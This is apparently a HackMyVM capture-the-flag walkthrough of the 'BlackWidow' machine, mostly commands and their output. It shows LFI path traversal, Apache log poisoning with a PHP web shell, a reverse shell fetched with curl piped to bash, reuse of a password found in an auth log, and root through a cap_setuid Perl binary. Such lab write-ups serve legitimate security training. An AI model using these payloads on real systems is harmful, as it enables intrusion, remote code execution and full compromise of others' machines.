

## 🖥️ Machine Information

<div class="hmv-info-card">
  <div class="hmv-card-header">
    <div class="htb-header-left">
      
      <div>
        <h3 class="hmv-machine-title">BlackWidow</h3>
        <span style="font-size: 0.85rem; color: var(--text-secondary);">Linux</span>
      </div>
    </div>
    <span class="hmv-diff-badge hard">HARD</span>
  </div>

  <div class="hmv-meta-row" style="grid-template-columns: repeat(4, 1fr);">
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Platform</span>
      <span class="hmv-meta-val orange">HackMyVM</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">OS</span>
      <span class="hmv-meta-val">🐧 Linux</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Difficulty</span>
      <span class="hmv-meta-val">Hard</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">IP Address</span>
      <span class="hmv-meta-val" style="font-family: monospace; font-size: 0.95rem;">192.168.56.121</span>
    </div>
  </div>
</div>

---

## 🧠 Attack Path Overview



> [!NOTE]
> This writeup details the complete attack path for the **BlackWidow** machine on the **HackMyVM** platform.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 1. Host Discovery & Port Scanning
We scan the target using Nmap to discover open ports:

```bash
nmap -p- -sC -sV 192.168.56.121
```

#### Open Ports:
```text
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http       Apache httpd 2.4.38 ((Debian))
111/tcp   open  rpcbind    2-4 (RPC #100000)
2049/tcp  open  nfs        3-4 (RPC #100003)
3128/tcp  open  http-proxy Squid http proxy 4.6
35043/tcp open  mountd     1-3 (RPC #100005)
35981/tcp open  nlockmgr   1-4 (RPC #100021)
```

### 2. Directory Scanning
We scan the web server on port 80 using directory fuzzing:

```bash
gobuster dir -u http://192.168.56.121/ -w directory-list-2.3-medium.txt
```

We identify:
* `/docs/`
* `/company/`

Navigating to `/company/` and viewing the page source code reveals a comment:
```html
<!-- We are working to develop a php inclusion method using "file" parameter - Black Widow DevOps Team. -->
```

Fuzzing subdirectories under `/company/` reveals:
* `/company/started.php`

---

## 🚀 Phase 2: Vulnerability Analysis & Foothold

### 1. Exploiting Local File Inclusion (LFI)
The parameter `file` inside `/company/started.php` is vulnerable to LFI. We confirm the vulnerability by reading `/etc/passwd`:

```bash
curl "http://192.168.56.121/company/started.php?file=../../../../../../../../../../../../../etc/passwd"
```

```text
root:x:0:0:root:/root:/bin/bash
viper:x:1001:1001:Viper,,,:/home/viper:/bin/bash
```

We identify a local user on the target machine named `viper`.

### 2. Apache Log Poisoning to RCE
Since we have LFI, we attempt to access the Apache access log file `/var/log/apache2/access.log` to test if we can execute log poisoning:

```bash
curl "http://192.168.56.121/company/started.php?file=../../../../../../../../../../../../../var/log/apache2/access.log"
```

We can successfully read the logs. To achieve Remote Code Execution (RCE), we write a PHP web shell inside the User-Agent header of our request:

```bash
curl http://192.168.56.121/ --user-agent "<?php system(\$_GET['shell']); ?>"
```

Once the payload is written to the log file, we trigger command execution by requesting the poisoned log with a command parameter `shell`:

```bash
curl "http://192.168.56.121/company/started.php?file=../../../../../../../../../../../../../var/log/apache2/access.log&shell=id"
```

### 3. Initial Shell as www-data
We start a listener on our local host:
```bash
nc -lnvp 9999
```

We trigger a reverse shell payload:
```bash
curl "http://192.168.56.121/company/started.php?file=../../../../../../../../../../../../../var/log/apache2/access.log&shell=curl+192.168.56.102/reverse.sh+|+bash"
```

We receive the shell connection on our listener:
```text
Connection received on 192.168.56.121
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## ⚡ Phase 3: Lateral Movement & Privilege Escalation

### 1. Lateral Movement to Viper
While performing local enumeration, we inspect auth log backups inside `/var/backups/`:

```bash
cat /var/backups/auth.log | grep sshd
```

```text
Dec 12 16:56:43 test sshd[29560]: Invalid user ?V1p3r2020!? from 192.168.1.109 port 7090
```

An invalid login attempt with the username `?V1p3r2020!?` indicates the password might have been typed in the username field by accident. 

We try these credentials for the user `viper`:
* **User**: `viper`
* **Password**: `?V1p3r2020!?`

We log in via SSH:
```bash
ssh viper@192.168.56.121
```

We retrieve the user flag:
```bash
cat /home/viper/local.txt
```
Output: `d930fe79919376e6d08972dae222526b`

### 2. Privilege Escalation
We check file capabilities set on the machine:

```bash
getcap -r / 2>/dev/null
```

Output:
```text
/home/viper/backup_site/assets/vendor/weapon/arsenic = cap_setuid+ep
```

We inspect the file format and version of `/home/viper/backup_site/assets/vendor/weapon/arsenic`:

```bash
file /home/viper/backup_site/assets/vendor/weapon/arsenic
/home/viper/backup_site/assets/vendor/weapon/arsenic --version
```

```text
This is perl 5, version 28, subversion 1 (v5.28.1)
```

The file `arsenic` is a Perl binary with `cap_setuid` capabilities. We can exploit this to execute `setuid(0)` and launch a root bash shell:

```bash
/home/viper/backup_site/assets/vendor/weapon/arsenic -e 'use POSIX qw(setuid); POSIX::setuid(0); exec"/bin/bash";'
```

```text
root@blackwidow:~# whoami
root
```

We successfully compromise the root account and retrieve the root flag:
```bash
cat /root/root.txt
```
Output: `0780eb289a44ba17ea499ffa6322b335`
